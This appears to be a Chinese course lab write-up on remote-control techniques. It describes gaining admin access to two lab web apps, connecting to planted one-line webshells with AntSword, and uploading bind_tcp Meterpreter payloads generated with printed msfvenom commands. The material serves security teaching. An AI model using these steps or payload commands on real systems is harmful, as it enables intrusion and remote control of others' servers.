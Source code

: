 ```yaml
---
title: 实验三--远程控制技术
slug: /course/NPTT/test3
sidebar_position: 3
---
```


## 实验目的

1、学会使用主流的远控软件,比如msf.学会使用webshell管理工具对一句话木马进行连接.

## 实验任务

1、进入web系统后台后写入一句话木马,然后用中国蚁剑进行连接

2、用中国蚁剑进行连接后,使用msf进行远控

## 实验步骤

### 广诚在线视频 10.100.0.99

御剑扫描，发现敏感文件

![image-20240714194140257](https://img.crzliang.cn/img/202407142108134.png)                               

使用浏览器打开是乱码的，火狐自带修复工具，修复后即可找到管理页面和登录的账号密码

![image-20240714194153388](https://img.crzliang.cn/img/202407142108135.png) 

登录后台后，点击工具à模板管理àdefaultàHome，编辑index.tpl，在这里应该是要自己加上一句话木马的，但是环境是公共环境，已经有人添加了进去，所以我们是可以直接利用的

![image-20240714194158919](https://img.crzliang.cn/img/202407142108136.png)

连接成功

![image-20240714194223962](https://img.crzliang.cn/img/202407142108137.png)

生成msf正向马

msfvenom -p linux/x64/meterpreter/bind_tcp LPORT=12345 -f elf > linuxshell27

![image-20240714194237714](https://img.crzliang.cn/img/202407142108138.png)

然后使用蚁剑上传木马

 ![image-20240714194245731](https://img.crzliang.cn/img/202407142108140.png)

启用蚁剑的虚拟终端，然后运行木马

![image-20240714194215936](https://img.crzliang.cn/img/202407142108141.png)

在攻击机上启用msf去连接木马，但是不是root权限

![image-20240714194314505](https://img.crzliang.cn/img/202407142108142.png)

### 广诚小学 10.100.0.49

登录网站，发现有一个administrator用户名，扫描目录找到后台登录

![image-20240714194323866](https://img.crzliang.cn/img/202407142108143.png)

使用dirsearch找到后台登录地址

![image-20240714194328076](https://img.crzliang.cn/img/202407142108144.png)

使用administrator/ administrator登录，然后再专题管理中对最下面的专题进行编辑

![image-20240714194332109](https://img.crzliang.cn/img/202407142108145.png)

进入编辑页面看到已有马，所以直接，使用蚁剑进行连接

![image-20240714194335791](https://img.crzliang.cn/img/202407142108146.png)

蚁剑连接成功

![image-20240714194339615](https://img.crzliang.cn/img/202407142108147.png) 

根据目录结构判断是Windows环境

![image-20240714194344535](https://img.crzliang.cn/img/202407142108148.png)

使用msf生成Windows的正向木马

msfvenom -p windows/meterpreter/bind_tcp LPORT=12345 -f exe -o flash27.exe

 ![image-20240714194348490](https://img.crzliang.cn/img/202407142108149.png)

利用蚁剑上传

![image-20240714194352291](https://img.crzliang.cn/img/202407142108150.png)

然后运行木马

![image-20240714194400586](https://img.crzliang.cn/img/202407142108151.png) 

msf进行监听

![image-20240714194406423](https://img.crzliang.cn/img/202407142108152.png)
